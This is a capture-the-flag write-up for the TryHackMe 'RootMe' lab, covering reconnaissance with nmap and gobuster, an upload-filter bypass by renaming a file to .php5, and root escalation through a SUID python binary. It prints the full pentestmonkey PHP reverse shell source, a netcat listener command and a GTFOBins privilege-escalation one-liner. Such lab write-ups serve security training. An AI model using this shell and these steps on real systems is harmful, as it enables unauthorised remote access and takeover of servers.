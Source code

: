 # RootMe - THM

I'll start by running nmap scan:
```bash
nmap -sV -sC 10.10.12.73 -oN scan.nmap
```

![image](https://user-images.githubusercontent.com/114166939/226315146-a7b150ac-c319-4da5-afbd-5d66906843e8.png)

Let's take a look on the website:

I'll run a brute-force attack on the url to find hidden directories:
```bash
gobuster dir -u http://10.10.12.73/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > dirs.txt
```
![image](https://user-images.githubusercontent.com/114166939/226315983-f670d517-b741-4bfc-8c97-820c1e5cdf21.png)

The "/panel" directory includes images upload system:

![image](https://user-images.githubusercontent.com/114166939/226316570-95810171-e5d0-4216-923d-8dbbcdcd283b.png)

I'll try to get a reverse shell by uploading an exploit to this system,
I'm going to use php code for reverse shell by "https://pentestmonkey.net/":
```php
  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '[IP]';  // You have changed this
  $port = [PORT];  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;
  
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }

  ?> 
```
I changed the IP and port and called this file "reverse.php" and now I'm going to upload it to the panel:

![image](https://user-images.githubusercontent.com/114166939/226318268-7abbee05-bc19-4640-a7e6-d93bb8649fbc.png)

It detected and blocked the file, so to pass this validation  I found this page: "https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass".

So I'll change the file name to:"reverse.php5" and let's try again!

![image](https://user-images.githubusercontent.com/114166939/226319215-cea89063-2462-4d5e-84cc-da804415d50a.png)

Now i can find the upload at "/uploads" directory.

![image](https://user-images.githubusercontent.com/114166939/226319479-90a95ccd-e8cc-4049-b199-6c976cfe0823.png)

First, I'll run a netcat listener:
```bash
nc -lnvp [PORT]
```

And now run the reverse shell from the "/uploads" directory,
Got a reverse shell as "www-data" user.

![image](https://user-images.githubusercontent.com/114166939/226320289-3bc03e06-ed7b-40ce-899d-b01f0dca4eae.png)

Now, I can find the user.txt flag which stored at "/var/www":

![image](https://user-images.githubusercontent.com/114166939/226320713-e422b773-2245-4686-aeb7-713225bee469.png)

To find the root.txt flag, I need to find a way to escalate my privileges and become the root user.

I'm going to search for SUID files with the command:
```bash
find / -user root -perm /4000 2>/dev/null
```
One of the most suspicious files in the output is "/usr/bin/python"

![image](https://user-images.githubusercontent.com/114166939/226321712-c3ab1b4b-fc18-4686-a623-a14eba96850d.png)

I'll search for a vulnerability for SUID binary python file on "https://gtfobins.github.io/".

Found the following command:
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
I'll enter to "/usr/bin" and run this command:

![image](https://user-images.githubusercontent.com/114166939/226322547-13b6e186-2cc7-4be9-ba31-3a1e2a3f4677.png)

Now all we need to do is enter the root directory and print the root.txt flag:

![image](https://user-images.githubusercontent.com/114166939/226325201-fd09f234-be21-4c33-8550-fcb9125bcb99.png)
